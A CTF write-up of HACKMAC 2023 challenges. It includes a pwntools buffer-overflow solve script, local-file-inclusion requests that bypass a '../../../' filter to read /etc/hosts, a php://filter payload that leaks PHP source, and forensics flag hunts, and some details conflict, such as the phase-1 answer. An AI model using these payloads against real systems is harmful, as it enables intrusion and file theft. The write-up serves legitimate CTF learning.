

HACKMAC CTF 2023 (Top #1 Postgrad)
Table of Contents
Binary Exploitation/ Reverse Engineering
1. Game Of Exploits
Strings the binary and grep for the flag pattern.
$ strings GOE | grep HACKMAC
HackMac{https://www.youtube.com/watch?v=dQw4w9WgXcQ}
2. Secret Vault
Put the binary into Ghidra for decompiling to readable code. There are three phases that we need to pass.
Phase 1:
void phase1(undefined param1)
int local_28 [7];
int local_c;
read_six_numbers(param_1,(long)local_28);
if (local_28[0] < 0) {
explode_bomb();
}
for (local_c = 1; local_c < 6; local_c = local_c + 1) {
if (local_28[local_c] != local_c + local_28[local_c + -1]) {
explode_bomb();
}
}
puts("Phase 2 passed!");
fflush(stdout);
return;
}
We only need to enter the 6 integerers, separated with spaces to pass the conditions in the for loop. That would be 0 3 6 10 15.
Phase 2:
void phase_2(char *param_1,long param_2)
{
char cVar1;
char cVar2;
int iVar3;
size_t sVar4;
sVar4 = strlen(param_1);
if (sVar4 != 6) {
explode_bomb();
}
*param_1 = *param_1 >> 1;
param_1[1] = param_1[1] + *param_1 ^ 0xe3;
sVar4 = strlen(param_1);
cVar1 = param_1[sVar4 - 1];
cVar2 = param_1[2];
sVar4 = strlen(param_1);
param_1[2] = cVar1 % '\n' + cVar2 + (char)sVar4 * '\x05';
param_1[3] = '@';
param_1[4] = (param_1[4] - *(char *)(param_2 + 3)) + 'C';
param_1[5] = param_1[5] + '\x01';
iVar3 = strings_not_equal(param_1,"9Ns@Ph");
if (iVar3 != 0) {
explode_bomb();
}
return;
}
We have to enter a corrected password of length six so that after going through all the binary operations we end up with “9Ns@Ph”. It is just a matter of doing basic maths. Except for the fifth characters of the password when it involves param2 which we do not know the value of on the remote binary. I opt to bruteforce the fifth characters. The string that passes phase 2 is rtR@ng.
Phase 3:
void phase_3(void)
{
int iVar1;
size_t sVar2;
char local_208 [508];
int local_c;
local_c = 0;
printf(
"You\'ve been flowing through these phases but you\'ll never access my unreachable Password: "
);
fflush(stdout);
gets(local_208);
sVar2 = strcspn(local_208,"\n");
local_208[sVar2] = '\0';
iVar1 = strcmp(local_208,"Not_real_pass");
if (iVar1 == 0) {
puts("\n Correct Password ");
fflush(stdout);
local_c = 1;
}
else {
puts("\n Wrong Password ");
fflush(stdout);
}
if (local_c != 0) {
printf("\n FLAG{not_the_flag}");
fflush(stdout);
}
return;
}
Overflow local_208 array so that we can change the value of local_c to be different from 0. The flag will be printed out then.
# solve.py
from pwn import *
elf = context.binary = ELF('./Vault')
if len(sys.argv) == 1:
is_local = True
p = process(elf.path, stdin=pty, stdout=pty)
elif len(sys.argv) > 1:
is_remote = True
if len(sys.argv) == 3:
host = sys.argv[1]
port = sys.argv[2]
else:
host, port = sys.argv[1].split(':')
p = remote(host, port)
print(p.recvuntilS("dare!:"))
p.sendline("0 1 3 6 10 15")
print(p.recvuntilS("password!! 2:"))
p.sendline("rtR@ng")
print(p.recvuntil("unreachable pass:"))
p.sendline("0" * 600)
print(p.recvall(timeout=2))
Citadel - LookingForInformation
1. Just getting started
The hint was the flag is in the directory below the current server files. There is a local file inclusion vulnerability in the view parameter.
GET /index.php?view=../flag.txt HTTP/1.1
Host: 10.10.227.231
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=gb09qc0o420fbfmi9lhns77970
Connection: close
HTTP/1.1 200 OK
...
<html>
<head>
<link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
<div class="menu">
<a href="index.php">Main Page</a>
<a href="index.php?view=about-us.html">About Us</a>
<a href="index.php?view=contact-us.html">Contact</a>
</div>
Flag1 - HACKMAC{N3ver_tru5t_G3T_param3ters!}
I've stored our sensitive testing data below and it seems like it's working. To the rest of the IT team, I've pushed some updates to /etc/hosts.
Please check this file to make sure nothing is broken!
#This information means nothing
F = 9999
L = 1111
A = 2222
G = 5555
</body>
</html>
Flag1 - HACKMAC{N3ver_tru5t_G3T_param3ters!}
2. Avoidance
Based on the note in flag 1, /etc/hosts might contain new information, but to do that a bypass is needed for the LFI filter. The filter allows patterns such as ../ and ../../ but ../../../ is rejected. A reasonable guess is that the code is checking for ../../../ pattern literally. That can be bypassed using LFI patterns such as: ../.././../../
GET /index.php?view=../.././../.././../.././../.././../../etc/hosts HTTP/1.1
Host: 10.10.227.231
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=gb09qc0o420fbfmi9lhns77970
Connection: close
HTTP/1.1 200 OK
...
127.0.0.1 localhost
127.0.1.1 infotato
# The following lines are desirable for IPv6 capable hosts
::1 ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
Flag2 - HACKMAC{Bypass1ng_Y0ur_tr1vial_Rulez}
#The rules here all seem to be working. By the way I've updated the PHP source code a bit. Please read and review to see some important changes
</body>
</html>
3. Translation Required
Based on the hint in Avoidance, the next information can be found in the source code of index.php. When trying to view the index.php file using LFI payload like the two challenges above, it keeps rendering itself and the response becomes too large in Burp. This indicates that it is using include to render whatever the content in view parameter is. An alternative way is to use PHP streamwrapper to get the content of index.php instead:
GET /index.php?view=php://filter/convert.base64-encode/resource=index.php HTTP/1.1
Host: 127.0.1.1
X-Forwarded-For: infotato
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=gb09qc0o420fbfmi9lhns77970
Connection: close
HTTP/1.1 200 OK
...
PD9waHAKc2Vzc2lvbl9zdGFydCgpOwo/Pgo8aHRtbD4KICAgIDxoZWFkPgoJPGxpbmsgcmVsPSJzdHlsZXNoZWV0IiB0eXBlPSJ0ZXh0L2NzcyIgaHJlZj0ic3R5bGUuY3NzIj4KICAgIDwvaGVhZD4KICAgIDxib2R5PgoJPGRpdiBjbGFzcz0ibWVudSI+CgkgICAgPGEgaHJlZj0iaW5kZXgucGhwIj5NYWluIFBhZ2U8L2E+CgkgICAgPGEgaHJlZj0iaW5kZXgucGhwP3ZpZXc9YWJvdXQtdXMuaHRtbCI+QWJvdXQgVXM8L2E+CgkgICAgPGEgaHJlZj0iaW5kZXgucGhwP3ZpZXc9Y29udGFjdC11cy5odG1sIj5Db250YWN0PC9hPgoJPC9kaXY+Cjw/cGhwCi8vRmxhZyAzIC0gSEFDS01BQ3tQSFBfRmlsdDNyc19hcmVfZnVuIX0KLy9UaGVzZSBjaGFuZ2VzIGxvb2sgZ3JlYXQhIEkgY2FuIHNlZSB5b3UndmUgbWFkZSBlZmZvcnRzIHRvIHN0b3AgZGlyZWN0b3J5IHRyYXZlcnNhbCA6KQovL0luY2FzZSBhbnlvbmUgZG9lcyBtYW5hZ2UgdG8gYnlwYXNzIHRoZXNlIEkndmUgcGxhY2VkIHRoZSB0cnVseSBzZWNyZXQgZGF0YSBpbiBhIGhpZGRlbiBkaXJlY3RvcnkKCmlmKCFpc3NldCgkX0dFVFsndmlldyddKSB8fCAoJF9HRVRbJ3ZpZXcnXT09ImluZGV4LnBocCIpKSB7CiAgIGVjaG8gIjxwPjxiPldlbGNvbWUgdG8gdGhlIGJldGEgdGVzdCBvZiBQLkguUC5LLkUuSy5XITwvYj48YnI+QWxsIHN5c3RlbXMgYXJlIGN1cnJlbnRseSBzaG93aW5nIGFzIG9ubGluZSBhbmQgdW5wd25lZCE8L3A+IjsKfQplbHNlaWYgKHN0cnBvcygkX0dFVFsndmlldyddLCAiLi4vLi4vLi4vIikgIT09IGZhbHNlKSB7CgllY2hvICJTdGF5IGF3YXkgZnJvbSB0aGUgb3RoZXIgZmlsZXMgPjooIjsKfQplbHNlaWYgKHN0cnBvcygkX0dFVFsndmlldyddLCAicGhwOi8vIikgPT09IDApIHsKCWVjaG8gZmlsZV9nZXRfY29udGVudHMoJF9HRVRbJ3ZpZXcnXSk7Cn0KZWxzZSB7CglpbmNsdWRlKCIvdmFyL3d3dy9odG1sLyIgLiRfR0VUWyd2aWV3J10pOwp9Cj8
...
Decode the base64 response:
<?php
session_start();
?>
...
<?php
//Flag 3 - HACKMAC{PHP_Filt3rs_are_fun!}
//These changes look great! I can see you've made efforts to stop directory traversal :)
//Incase anyone does manage to bypass these I've placed the truly secret data in a hidden directory
if(!isset($_GET['view']) || ($_GET['view']=="index.php")) {
echo "<p><b>Welcome to the beta test of P.H.P.K.E.K.W!</b><br>All systems are currently showing as online and unpwned!</p>";
}
elseif (strpos($_GET['view'], "../../../") !== false) {
echo "Stay away from the other files >:(";
}
elseif (strpos($_GET['view'], "php://") === 0) {
echo file_get_contents($_GET['view']);
}
else {
include("/var/www/html/" .$_GET['view']);
}
?>
</body>
</html>
Flag 3 - HACKMAC{PHP_Filt3rs_are_fun!}
Forensics
1. Lost in Installation
On examining the disk image, by searching for HACKMAC keywords, we can get two flags. One is for this challenge: 
The file contains the flag is Welcome.txt:
HACKMAC{L3t5_g3T-2.w0rK}
2. Lost in Mail
The hint of this challenge states that the mail can be set to forward to other mails. Examining USER.DAT there was a forwarding rule set up:
Rule00000
Disabled
Actions
All Messages
Filter By Account
Forward
Togjross@hackmac.xyz[
Inbox Rules
Migrated
RulesConfigDirty
Columns
Mail Column Info (In)
Mail
Welcome Message
Attach VCard
NotePos0
SplitHorzPct2
SplitVertPct2
SplitDir
ThreadArticles
LocalFilter
(Tools2d
Outlook Express
We only have to submit the clue on where to investigate next. The flag is:
HACKMAC{Togjross@hackmac.xyz}
3. Loss in redaction
The other flag that can be found by searching HACKMAC keyword is for this challenge. It is in the confidential.txt file.
Flag:
HACKMAC{iNf3CteD_FiL3}
4. Lost in space
The hint points to a name in the achievement records in the game Space Cadet. That can be found in USER.DAT.
Flag:
HACKMAC{Ronnie-Donnie.Wilson}
SECDIM
1. Boeing787-py.ctf
Fix the code in views.py to pass all the security tests and extra conditions and push to SECDIM git remote server. If all the tests passed in the remote server the flag is printed out.
from django.http import HttpResponse, Http404, HttpResponseBadRequest
from django.template import loader
from .utils import is_optimal
def index(request):
return HttpResponse("[!] Connected to Boeing 787!<br>[?] Enter how many days this Boeing has been operational (1 to 248): http://localhost:8080/isoptimal?days=[1-248]: ")
def isoptimal(request):
try:
days = int(request.GET.get("days", 0))
except ValueError:
return HttpResponseBadRequest("[!] Invalid input: 'days' must be a valid integer.")
if days < 1 or days > 248 and days != 1337 and days != 249:
return HttpResponseBadRequest("[!] Invalid input: 'days' must be between 1 and 248.")
if days == 1337 or days == 249:
return HttpResponse("[i] Reboot is required")
res = is_optimal(days)
if res:
return HttpResponse("[i] Reboot is required")
else:
reboot_days = 248 - days
return HttpResponse(f"[i] System is optimal<br>Reboot is required in {reboot_days} days")
2. Sayhello-py.ctf
Fix the code in views.py to filter out user input so that it satisfied the security tests for XSS. Push to remote secdim git repo to get the flag after all the tests have passed:
from django.http import HttpResponse
from django.utils.html import escape
from django.utils.safestring import mark_safe
def status(request):
return HttpResponse(status=200)
def main(request):
return HttpResponse("Tell me who to say hello? e.g. /sayHello/?name=alice", status=200)
def say_hello(request):
name = request.GET.get("name", None)
if not name:
return HttpResponse("Tell me who to say hello? e.g. /sayHello/?name=alice", status=200)
escaped_name = escape(name)
safe_html = f'<h1>Hello, {escaped_name}</h1>'
return HttpResponse(mark_safe(safe_html), status=200)